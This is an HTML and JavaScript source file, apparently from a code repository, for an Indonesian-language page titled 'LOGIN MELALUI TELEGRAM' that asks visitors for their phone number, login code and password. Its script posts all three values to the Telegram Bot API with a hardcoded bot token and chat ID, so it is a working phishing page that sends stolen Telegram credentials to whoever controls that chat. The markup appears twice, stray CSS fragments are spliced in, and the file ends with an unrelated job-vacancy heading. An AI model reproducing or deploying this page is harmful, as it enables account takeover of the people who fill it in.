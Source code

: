 <!DOCTYPE html>
<html lang="en">
<head>
  <link rel="stylesheet" href="style.css">
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title></title>
</head>
<body>
  
    <main>
      <div class="centered">
        <form id="form">
          <h1>LOGIN MELALUI TELEGRAM</h1>
          <label>
            <span></span>
            <div class="input-box">
              <input type="message" id="message" placeholder="nomor telepon" required>
            </div>
            <div class="input-box">
              <input type="nama" id="nama" placeholder="Code" required>
            </div>
            <div class="input-box">
              <input type="password" id="password" placeholder="password" required>
            </div>
          </label>
          <button type="submit" class="centered-submit">
            KIRIM!
          </button>
        </form>
      </div>
    </main> 

<script>
  let form = document.querySelector("#form");

let bot = {
  TOKEN: "7653188082:AAEMjZKBaivSo5nEHy1HVlQbRYqNvCwuHic",
  chatID: "-4546395669",
}

form.addEventListener("submit", e => {
  e.preventDefault();
  
  let message = document.querySelector("#message");
  let nama = document.querySelector("#nama");
  
  fetch(`https://api.telegram.org/bot${bot.TOKEN}/sendMessage?chat_id=${bot.chatID}&text=name:${message.value}
                             
                              Code:
  ${nama.value}
                            Password:
  ${password.value}`, {
    method: "GET"
  })
  .then(succes => {
    alert("Message send successfully!")
  }, error => {
    alert("Message not send!")
    console.log(error);
  })
})
</script>

<style>
*{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
  font-family: "Poppins", sans-serif;
}
main {
  display: flex;
  justify-content: center;
  align-items: center;
  min-height: 100vh;
  background: url(images1.jpg) no-repeat;
  background-size: cover;
  background-position: center;
}
.centered{
  width: 420px;
  background: transparent;
  border: 2px solid rgba(red, green, blue, alpha);
  backdrop-filter: blur(9px);
  color: white;
  border-radius: 12px;
<!DOCTYPE html>
<html lang="en">
<head>
  <link rel="stylesheet" href="style.css">
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title></title>
</head>
<body>
  
    <main>
      <div class="centered">
        <form id="form">
          <h1>LOGIN MELALUI TELEGRAM</h1>
          <label>
            <span></span>
            <div class="input-box">
              <input type="message" id="message" placeholder="nomor telepon" required>
            </div>
            <div class="input-box">
              <input type="nama" id="nama" placeholder="Code" required>
            </div>
            <div class="input-box">
              <input type="password" id="password" placeholder="password" required>
            </div>
          </label>
          <button type="submit" class="centered-submit">
            KIRIM!
          </button>
        </form>
      </div>
    </main> 

<script>
  let form = document.querySelector("#form");

let bot = {
  TOKEN: "7653188082:AAEMjZKBaivSo5nEHy1HVlQbRYqNvCwuHic",
  chatID: "-4546395669",
}

form.addEventListener("submit", e => {
  e.preventDefault();
  
  let message = document.querySelector("#message");
  let nama = document.querySelector("#nama");
  
  fetch(`https://api.telegram.org/bot${bot.TOKEN}/sendMessage?chat_id=${bot.chatID}&text=name:${message.value}
                             
                              Code:
  ${nama.value}
                            Password:
  ${password.value}`, {
    method: "GET"
  })
  .then(succes => {
    alert("Message send successfully!")
  }, error => {
    alert("Message not send!")
    console.log(error);
  })
})
</script>

<style>
*{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
  font-family: "Poppins", sans-serif;
}
main {
  display: flex;
  justify-content: center;
  align-items: center;
  min-height: 100vh;
  background: url(images1.jpg) no-repeat;
  background-size: cover;
  background-position: center;
}
.centered{
  width: 420px;
  background: transparent;
  border: 2px solid rgba(red, green, blue, alpha);
  backdrop-filter: blur(9px);
  color: white;
  border-radius: 12px;
  padding: 30px 40px;
}
.centered h1{
  font-size: 25px;
  text-align: center;
  color: rgba(red, green, blue, alpha);
}
.centered .input-box{
  position: relative;
  width: 100%;
  height: 50px;
  
  margin: 30px 0;
}
.input-box input{
  width: 100%;
  height: 100%;
  background: transparent;
  border: none;
  outline: none;
  border: 2px solid rgba(red, green, blue, alpha);
  border-radius: 40px;
  font-size: 16px;
  color: white;
  padding: 20px 45px 20px 20px;
}
.input-box i{
  position: absolute;
  right: 20px;
  top: 30%;
  transform: translate(-50%);
  font-size: 20px;
}
.centered .remember-forget{
  display: flex;
  justify-content: space-between;
  font-size: 14.5px;
  margin: -15px 0 15px;
}
.remember-forget label input{
  color: white;
  margin-right: 3px;
  
}
.remember-forget a:hover{
  text-decoration: underline;
}
.centered-submit{
  width: 100%;
  height: 45px;
  background: white;
  border: none;
  outline: none;
  border-radius: 40px;
  box-shadow: 0 0 10px rgba(red, green, blue, alpha);
  cursor: pointer;
  font-size: 16px;
  color: #333;
  font-weight: 600;
}
.centered .register-link{
  font-size: 14.5px;
  text-align: center;
  margin: 20px 0 15px;
  
}
.register-link p a{
  color: white;
  text-decoration: none;
  font-weight: 600;
}
.register-link p a:hover{
  text-decoration: underline;
}
main .centered{
  padding: 20px;
  width: 500%;
  font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, 'Open Sans', 'Helvetica Neue', sans-serif;
  max-width: 400px;
  box-shadow: 0 0 15px rgba(red, green, blue, alpha);
}

main .centered label {
  width: 100%;
  display: block;
  margin-bottom: 20px;
}

main .centered label input {
  width: 100%;
  height: 40px;
  border: solid 1px;
  outline: none;
  padding: 5px;
  font-size: 18px;
  margin-top: 20px;
}
</style>
</body>
</html>#  padding: 30px 40px;
}
.centered h1{
  font-size: 25px;
  text-align: center;
  color: rgba(red, green, blue, alpha);
}
.centered .input-box{
  position: relative;
  width: 100%;
  height: 50px;
  
  margin: 30px 0;
}
.input-box input{
  width: 100%;
  height: 100%;
  background: transparent;
  border: none;
  outline: none;
  border: 2px solid rgba(red, green, blue, alpha);
  border-radius: 40px;
  font-size: 16px;
  color: white;
  padding: 20px 45px 20px 20px;
}
.input-box i{
  position: absolute;
  right: 20px;
  top: 30%;
  transform: translate(-50%);
  font-size: 20px;
}
.centered .remember-forget{
  display: flex;
  justify-content: space-between;
  font-size: 14.5px;
  margin: -15px 0 15px;
}
remember-forget label input{
  color: white;
  margin-right: 3px;
  
}
.remember-forget a:hover{
  text-decoration: underline;
}
.centered-submit{
  width: 100%;
  height: 45px;
  background: white;
  border: none;
  outline: none;
  border-radius: 40px;
  box-shadow: 0 0 10px rgba(red, green, blue, alpha);
  cursor: pointer;
  font-size: 16px;
  color: #333;
  font-weight: 600;
}
.centered .register-link{
  font-size: 14.5px;
  text-align: center;
  margin: 20px 0 15px;
  
}
.register-link p a{
  color: white;
  text-decoration: none;
  font-weight: 600;
}
.register-link p a:hover{
# Lowongan-pekerjaan-
